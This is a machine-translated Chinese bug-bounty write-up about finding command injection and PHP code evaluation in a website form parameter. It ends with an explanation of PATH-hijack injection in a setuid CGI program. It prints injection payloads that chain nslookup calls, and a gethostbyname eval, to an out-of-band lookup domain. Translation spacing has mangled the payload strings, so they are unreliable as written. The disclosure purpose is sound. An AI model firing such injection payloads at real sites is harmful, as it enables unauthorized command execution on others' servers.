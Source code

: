 # 当我发现多个命令注入时

> 原文：<https://infosecwriteups.com/when-i-found-multiple-command-injection-ad891d3ad9e6?source=collection_archive---------1----------------------->

# 大家好，

我通过捕获 DNS A 请求发现了一个命令注入，这发生在输入数据被解释为操作系统命令时。

这是一个非常关键的问题，应该尽快解决。

在没有指定绝对路径的情况下执行命令可能会允许攻击者通过更改$PATH 或程序执行环境的其他方面来执行恶意的二进制文件。

这个 bug 的影响是:

攻击者可以在系统上执行任意 PHP 代码。攻击者还可能执行任意系统命令

我是如何发现

我发现了随机用户输入表单(param=)

在 param 中放了很多东西之后，我尝试= &+nslookup+cxx 8 nlugxbkajjeguq 7 iwpzsdbxnyfj 5 o-a 6 ssjqlda . r87 . me & ' \ " ` 0 & nslookup+cxx 8 nlugxbkajjeguq 7 iwpzsdbxnyfj 5 o-a 6 ssjqlda . r87 . me & ` '(带解码)

![](img/0160731662c05fa84baa4a4ace6ee112.png)

像这样:= % 2526% 2 bnslookup % 2 bcx 8 nlugxbqajjeguq 7 iwpzsdbxnyfj 5 o-a 6 ssjqlda . r 87 . me % 2526% 2527% 255 c % 2522% 25600% 2526 nslookup % 2 bcx 8 nlugxbqajjeguq 7 iwpzsdbxnyfj 5 o-a 6 ssjqlda . r 87 . me % 2526%

然后我得到了

< pre >服务器:xyz
地址:172 . x . x . x</pre>
/p>
</div>
</div>

然后我在同一个网站找到了代码评估

xyz.php？name = % 2 bgethostbyname(trim(' cxx 8 nlugxbab 9 VH _ wuarecplh 8 zuzv 9 vyp 5 zxftg '。VMA . r87 . me ')% 3b % 2f % 2f

额外额外额外…..(理论上只是为了增加报告长度)

![](img/99b862f3bbf18c48a43d48941e8623b2.png)

布雷登·安德森在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄的照片

不要接受来自最终用户的会被直接解释为源代码的输入。如果这是业务需求，验证应用程序上的所有输入，并删除所有可能被直接解释为 PHP 源代码的数据。

利用这个漏洞并不困难。PHP 是一种高级语言，有大量的可用资源。成功利用该漏洞需要编程语言知识、访问源代码或生成用于此类攻击的源代码的能力，以及最低限度的攻击技能。

**解释**

命令注入漏洞有两种形式:

-攻击者可以更改程序执行的命令:攻击者显式地控制命令是什么。

-攻击者可以改变命令执行的环境:攻击者隐式控制命令的含义。

在这种情况下，我们主要关注第二种情况，在这种情况下，攻击者可以通过更改环境变量或在搜索路径的早期插入恶意的可执行文件来改变命令的含义。这种类型的命令注入漏洞发生在以下情况:

1.攻击者修改应用程序的环境。

2.应用程序在没有指定绝对路径或验证正在执行的二进制文件的情况下执行命令。

3.通过执行该命令，应用程序为攻击者提供了攻击者无法获得的特权或能力。

演示当攻击者改变命令的解释方式时会发生什么。该代码来自一个基于网络的 CGI 工具，它允许用户更改他们的密码。NIS 下的密码更新过程包括运行`/var/yp`目录下的`make`。注意，由于程序更新密码记录，它已经安装了`setuid root`。

程序调用`make`如下:

```
**system("cd /var/yp && make &> /dev/null");**
```

本例中的命令是硬编码的，因此攻击者无法控制传递给`system()`的参数。然而，由于程序没有为`make`指定绝对路径，并且在调用命令之前没有清理其环境变量，攻击者可能会修改他们的`$PATH`变量以指向名为`make`的恶意二进制文件，并从 shell 提示符执行 CGI 脚本。由于程序已经安装了`setuid root`，攻击者的`make`版本现在以`root`权限运行。

环境在程序中系统命令的执行中起着重要的作用。像`system()`和`exec()`这样的函数使用调用它们的程序的环境，因此攻击者有潜在的机会影响这些调用的行为。

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)